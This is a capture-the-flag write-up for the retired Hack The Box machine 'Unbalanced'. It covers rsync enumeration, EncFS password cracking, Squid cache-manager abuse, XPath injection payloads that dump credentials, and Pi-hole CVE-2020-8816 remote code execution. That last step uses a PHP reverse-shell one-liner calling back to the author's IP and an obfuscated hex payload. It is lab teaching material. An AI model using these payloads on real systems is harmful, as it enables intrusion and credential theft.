


# Unbalanced

This is the write-up for the box Unbalanced that got retired at the 5th December 2020.
My IP address was 10.10.14.7 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.200    unbalanced.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/unbalanced.nmap 10.10.10.200
```

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 a2:76:5c:b0:88:6f:9e:62:e8:83:51:e7:cf:bf:2d:f2 (RSA)
|   256 d0:65:fb:f6:3e:11:b1:d6:e6:f7:5e:c0:15:0c:0a:77 (ECDSA)
|_  256 5e:2b:93:59:1d:49:28:8d:43:2c:c1:f7:e3:37:0f:83 (ED25519)
873/tcp  open  rsync      (protocol version 31)
3128/tcp open  http-proxy Squid http proxy 4.6
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking Rsync (Port 873)

The protocol **rsync** is used to synchronize files between devices and connections can be checked with the `rsync` command:
```
rsync rsync://10.10.10.200

conf_backups    EncFS-encrypted configuration backups
```

There is a directory _conf_backups_ that can be synchronized to our client:
```
rsync -av rsync://10.10.10.200/conf_backups conf_backups
```

It consists of 75 different files with cryptic file names and 1 hidden file called _.encfs6.xml_.
Only the file _.encfs6.xml_ is readable and it describes how the files are encrypted:
```
<creator>EncFS 1.9.5</creator>
(...)
```

The files are encrypted with **EncFS** and a hash to crack can be created with **encfs2john**:
```
encfs2john.py conf_backups/

conf_backups/:$encfs$192*580280*0*20*99176a6e4d96c0b32bad9d4feb3d8e425165f105*44*1b2a580dea6cda1aedd96d0b72f43de132b239f51c224852030dfe8892da2cad329edc006815a3e84b887add
```

Cracking it with **John the Ripper**:
```
john conf_backup.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password is:
> bubblegum

Mounting the decrypted file system to a new folder:
```
mkdir dec_backups

encfs ~/htb/boxes/unbalanced/conf_backups/ ~/htb/boxes/unbalanced/dec_backups/
```

The password works and all decrypted files are now in the created folder _dec_backups_.
All files are configuration files and as **Squid HTTP proxy** is running on this server, the file _squid.conf_ may have valuable information:
```
grep -v '^\#' squid.conf | grep .
```
```
(...)
acl intranet dstdomain -n intranet.unbalanced.htb
acl intranet_net dst -n 172.16.0.0/12
(...)
cachemgr_passwd Thah$Sh1
```

It discloses the hostname _intranet.unbalanced.htb_ that has to be added to our _/etc/hosts_ file.
The IP subnet 172.16.0.0/12 may be interesting when enumerating the internal networks and the password in there might also be useful later.

## Checking HTTP Proxy (Port 3128)

On port 3128 runs a **Squid HTTP proxy** that can be added in the proxy list in a browser.

When browsing to _intranet.unbalanced.htb_ with a browser, access to a website is granted.
The page is on _/intranet.php_ which means that PHP is running and there is a login form to an _Employee Area_.



To analyze this with **Burpsuite**, an _Upstream Proxy Server_ has to be added in the _User Options_ tab:
```
Proxy host: 10.10.10.200
Proxy port: 3128
```

The response header _Intranet-Host_ shows two different hostnames every other request:
```
Intranet-Host: intranet-host2.unbalanced.htb
Intranet-Host: intranet-host3.unbalanced.htb
```

With the _cachemgr_passwd_ that was found before, it is possible to gain access to the **Squid** admin functionalities:
```
curl --user ':Thah$Sh1' http://10.10.10.200:3128/squid-internal-mgr/menu

curl -s --user ':Thah$Sh1' http://10.10.10.200:3128/squid-internal-mgr/menu | grep -v disabled
```

The _fqdncache_ command could have information about the hostnames:
```
curl -s --user ':Thah$Sh1' http://10.10.10.200:3128/squid-internal-mgr/fqdncache
```
```
Address         Flg TTL Cnt Hostnames
172.31.179.2    H -001   1 intranet-host2.unbalanced.htb
172.31.179.3    H -001   1 intranet-host3.unbalanced.htb
172.17.0.1      H -001   1 intranet.unbalanced.htb
```

It is suspicious that there is no _intranet-host1_, that probably would have the IP 172.31.179.1.
When browsing there, it shows that it was taken out of the load balancing for security maintenance:
```
Host temporarily taken out of load balancing for security maintenance.
```

It is still active though and _intranet.php_ can also be accessed from 172.31.179.1.
This should have a vulnerability somewhere, so lets send the login form to **Burpsuite** and analyze the response.

### Searching Vulnerability on Web Page

A difference between the login forms is, that _intranet-host1_ shows the message _"Invalid credentials"_ when trying to authenticate.
When sending a _single quote (')_ in any of the parameters, the response size gets bigger, but there is not more displayed on the page.
This means that there is some kind of **injection vulnerability**.

After testing for different injections, the following in the _Password_ parameter dumps data from the database:
```
POST http://172.31.179.1/intranet.php HTTP/1.1
Host: 172.31.179.1

Username=admin&Password=' or '1'='
```
```
Rita Fubelli    rita@unbalanced.htb    Role: HR Manager
Jim Mickelson   jim@unbalanced.htb     Role: Web Designer
Bryan Angstrom  bryan@unbalanced.htb   Role: System Administrator
Sarah Goodman   sarah@unbalanced.htb   Role: Team Leader
```

As no other **SQL Injection** strings work, this seems to be a **XPATH Injection** vulnerability and the following injection proofs that:
```
Username=admin&Password=' and 1=0] | //*['1'='1
```

Now that we know what kind of vulnerability this is, the credentials for the users may be dumped.
The password can be obtained by using a **Brute-Force attack** and asking the web service for every character one after another.

This can be done with the **Burpsuite Intruder** or a custom script that can be found in this repository:
```
python3 unbalanced_bruteforce.py
```
```
Password Length for rita is 11
Password for rita is: password01!

Password Length for jim is 16
Password for jim is: stairwaytoheaven

Password Length for bryan is 23
Password for bryan is: ireallyl0vebubblegum!!!

Password Length for sarah is 10
Password for sarah is: sarah4evah
```

All credentials can be tested out on SSH, but only the password from _bryan_ will work:
```
ssh bryan@10.10.10.200
```

## Privilege Escalation

In the home directory of _bryan_ is a text file called _TODO_:
```
(...)
Pi-hole
* Install Pi-hole docker (only listening on 127.0.0.1) [DONE]
* Set temporary admin password [DONE]
* Create Pi-hole configuration script [IN PROGRESS]
- Run Pi-hole configuration script [TODO]
- Expose Pi-hole ports to the network [TODO]
```

According to the text file, there is **Pi-hole** running that listens on localhost.
By checking the **ARP table** of the host with `ip neigh`, the only unknown IP is 172.31.11.3.

Ensuring the IP hosts **Pi-hole** with a `curl` request on port 80:
```
curl 172.31.11.3
```
```
(...)
</head><body id='splashpage'><br/>Pi-<b>hole</b>: Your black hole for Internet advertisements<br><a href='/admin'>Did you mean to go to the admin panel?</a></body></html>
```

Forwarding port 80 on 172.31.11.3 to my local client:
```
ssh -L 80:172.31.11.3:80 bryan@10.10.10.200
```

Now the **Pi-hole** interface is accessible on our localhost on port 80, but it does not display everything correctly.
In the HTML source it says that it accesses the hostname _pi.hole_, which has to be put into the _/etc/hosts_ file:
```
127.0.0.1   pi.hole
```

The dashboard is successfully displayed when browsing to _pi.hole_.
By guessing some passwords, the password _admin_ logs us in to the platform.

The footer on the web page shows that it runs _Pi-hole v4.3.2-0_, so maybe there are public vulnerabilities for this version:
```
searchsploit pi-hole

Pi-hole < 4.4 - Authenticated Remote Code Execution / Privileges Escalation
```

The vulnerability is explained in [this blog article](https://natedotred.wordpress.com/2020/03/28/cve-2020-8816-pi-hole-remote-code-execution/) and has a payload that I will use.

Reverse shell command from the blog post:
```
echo php -r '$sock=fsockopen("10.10.14.7",9001);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Using [CyberChef](https://gchq.github.io/CyberChef/) to encode the reverse shell command to hex:
```
706870202d72202724736f636b3d66736f636b6f70656e282231302e31302e31342e37222c39303031293b6578656328222f62696e2f7368202d69203c2633203e263320323e263322293b27
```

Replacing hex from blog post with own payload:
```
aaaaaaaaaaaa&&W=${PATH#/???/}&&P=${W%%?????:*}&&X=${PATH#/???/??}&&H=${X%%???:*}&&Z=${PATH#*:/??}&&R=${Z%%/*}&&$P$H$P$IFS-$R$IFS'EXEC(HEX2BIN("706870202d72202724736f636b3d66736f636b6f70656e282231302e31302e31342e37222c39303031293b6578656328222f62696e2f7368202d69203c2633203e263320323e263322293b27"));'&&
```

Executing the command by sending it in the _MAC address field_ in the settings of **Pi-hole**:
```
Settings --> DHCP
```



After clicking the green plus, the payload is sent and the listener on my IP and port 9001 starts a reverse shell as _www-data_.

### Privilege Escalation to root

The user _www-data_ can access the _/root_ directory and there is a file called _pihole_config.sh_ with credentials:
```
/usr/local/bin/pihole -a -p 'bUbBl3gUm$43v3Ry0n3!'
```

It works to switch users with `su -` with this password to get root access!
